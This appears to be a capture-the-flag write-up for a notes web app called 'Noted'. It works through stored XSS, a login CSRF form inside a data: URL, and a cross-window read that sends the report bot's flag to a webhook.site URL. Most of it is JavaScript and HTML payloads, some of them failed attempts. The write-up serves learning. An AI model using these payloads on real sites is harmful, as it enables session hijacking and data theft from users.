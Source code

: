 # Noted

I very quickly saw that I can inject html in the notes. If you put `<script>alert("Hello")</script>` as the note content, it will give you the alert.

Looking at the source code, the report.js seems to be a bot. I am nut 100% sure how js bots work, but it seems ot create a random user with a random pass, and creates a note with the flag in it. The flag coes from an env variable `process.env.FLAG`. And then it opens the url we reposted. 

I neeed to inject some malaciour js in one of my notes, which when the bot will open, will somehow give me the flag. 

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Webhook Request</title>
</head>
<body>

<script>
  const flagValue = encodeURIComponent(process.env.FLAG);
  const webhookUrl = `https://webhook.site/4270872a-9750-4fd3-bfcb-40cc91a258d1/?t=${flagValue}`;

  // Redirect the browser to the webhook URL
  window.location.href = webhookUrl;
</script>

</body>
</html>
```

I uploaded this to 0x0.st, and sent it to the report url. It should have opened, and sent the flag to my webhook url, but it did not work. I guess the app does not have access to the internet, so webhooks and 0x0.st will not work.

I somehow have to get the bot to login into my account, and add the flag to my notes.


Create the following note. It creates a new note with the title as `window.open("", "pico").document.body.textContent`, this will be done only when we open the url with a `/?exploit`. This is done to prevent recursive note creation when we are

```html
<form action="/new" method="POST" id="form">
	<input type="hidden" name="_csrf" value="feh6ty2J-pGJFYvUyRsVmiHJe0zQ37fomL_g">
	<input id="flagHere" type="text" name="title" placeholder="title">
	<br><br>
	<textarea name="content" cols="50" rows="10" placeholder="content"></textarea>
	<br><br>
	<input type="submit" value="Create">
</form>
<script>
if (window.location.search.includes("exploit")){
	var newWindow = window.open("", "pico")
	var bodyText = newWindow.document.body.textContent;
    window.open("http://0.0.0.0:8080/new", "pico");
	document.getElementById("flagHere").value = bodyText;
    setTimeout(function() {form.submit()}, 1000);
}
</script>
```

`data:text/html` is the workaround used to open html without using an external link. This will make the bot login to my admin account, and then open the notes with `?exploit`. This should create a note with the flag as the title.
```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method="POST" id="loginForm" target="_blank">
    <input type="text" name="username" value="admin">
    <input type="text" name="password" value="admin">
</form>

<script>
    const notesURL = "http://0.0.0.0:8080/notes";
    const exploitQueryParam = "exploit";

    window.open(notesURL, "pico");

    setTimeout(function() {
        document.getElementById("loginForm").submit();
    }, 1000);

    setTimeout(function() {
        window.location = notesURL + "?" + exploitQueryParam;
    }, 1000);
</script>
```

Running this we get...
`Only one browser can be open at a time!`

After that didnt work, I read that only the report options does not have acces to the internet, so I mignt be able to use webhooks when viewing notes. Here is that code.

Create a note with this as the content
```html
<script>
  const searchString = "exploit";
  const webhookURL = "https://webhook.site/4270872a-9750-4fd3-bfcb-40cc91a258d1?";

  if (window.location.search.includes(searchString)) {
    const picoWindow = window.open("", "pico");
    const dataContent = picoWindow.document.body.textContent;
    window.location = webhookURL + dataContent;
  }
</script>
```

The report code remains almost the same
```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method="POST" id="loginForm" target="_blank">
    <input type="text" name="username" value="admin">
    <input type="text" name="password" value="admin">
</form>

<script>
    window.open("http://0.0.0.0:8080/notes", "pico");
    setTimeout(function() {document.getElementById("loginForm").submit();}, 1000);
    setTimeout(function() {window.location="http://0.0.0.0:8080/notes?exploit";}, 1000);
</script>
```

